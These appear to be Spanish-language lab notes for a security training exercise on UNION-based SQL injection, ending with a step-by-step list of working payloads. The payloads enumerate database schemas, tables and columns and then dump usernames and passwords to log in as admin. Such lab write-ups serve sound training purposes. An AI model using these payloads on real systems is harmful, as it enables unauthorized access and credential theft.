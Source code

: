 En esta clase aplicamos de forma práctica todo lo aprendido en los labs anteriores sobre ataques UNION. El objetivo es utilizar una inyección SQL para extraer información de una tabla diferente: la tabla ‘**users**‘, que contiene columnas ‘**username**‘ y ‘**password**‘.

La vulnerabilidad sigue presente en el parámetro de categoría. Como los resultados de la consulta se muestran en la respuesta, es posible manipularla para que devuelva información sensible de otra tabla.

Los pasos clave son:

- Verificar cuántas columnas tiene la consulta original y cuáles aceptan texto, tal como se vio en los labs anteriores.
- Una vez identificado eso, se construye un payload que sustituye la consulta original por una que seleccione directamente los valores de las columnas ‘**username**‘ y ‘**password**‘ desde la tabla ‘**users**‘.
- Al inyectar correctamente la consulta, la respuesta mostrará las credenciales de todos los usuarios, incluida la del administrador.

Con esa información, simplemente accedemos al login de la aplicación, introducimos los datos del admin y completamos el laboratorio.

**Quédate con esto**: Los ataques UNION permiten acceder a información de tablas completamente distintas a la que consulta originalmente la aplicación, siempre que podamos controlar y visualizar parte de la respuesta. Aquí es donde una inyección SQL se convierte en una herramienta realmente poderosa.

Solucion
mas de lo mismo primeroorder by 
luego, ' union select NULL,schema_name from information_schema.schemata-- - 
Luego, ' union select NULL,table_name from information_schema.tables where table_schema='public'-- - 
Despues  ' union select NULL,schema_name from information_schema.schemata-- - 
Luego, ' union select NULL,table_name from information_schema.tables where table_schema='public'-- 
Luego ' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'--
Ultimo ' union select username,password from public.users-- -
Nos logeamos


